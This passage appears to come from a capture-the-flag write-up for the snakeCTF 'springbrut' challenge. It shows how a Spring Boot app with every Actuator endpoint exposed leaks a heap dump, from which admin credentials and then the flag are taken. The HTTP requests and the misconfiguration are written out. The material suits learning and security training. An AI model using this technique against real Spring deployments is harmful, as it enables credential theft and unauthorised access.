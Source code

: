 The app might be using the "Spring Actuator" module to gather metrics.

```xml:pom.xml
⋮
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-actuator</artifactId>
</dependency>
⋮
```

It is indeed doing so, and furthermore it has enabled all the available endpoints; even some that _maybe_ shouldn't be exposed to the public...

```ini:application.properties
management.endpoints.web.exposure.include=*
```

```http
GET /actuator HTTP/2
Host: springbrut.snakectf.org

HTTP/2 200 OK
Content-Type: application/vnd.spring-boot.actuator.v3+json
⋮

{
  "_links": {
    ⋮
    "heapdump": {
      "href": "https://springbrut.snakectf.org/actuator/heapdump",
      "templated": false
    },
    ⋮
  }
}
```

```http
GET /actuator/heapdump HTTP/2
Host: springbrut.snakectf.org

HTTP/2 200 OK
Content-Type: application/octet-stream
Content-Length: 54594327
⋮
```

In the dump it's possible to find the username/password credentials: `username=admin&password=DGcZvIYwahxgqIBJyOw7Tk2WVwLKFZ4b`.

After logging in, it's just a matter of calling `/auth/flag` et voilà!

🏁 _snakeCTF{N0\_m3morY\_L3akS???}_{:.spoiler}

## phpotato
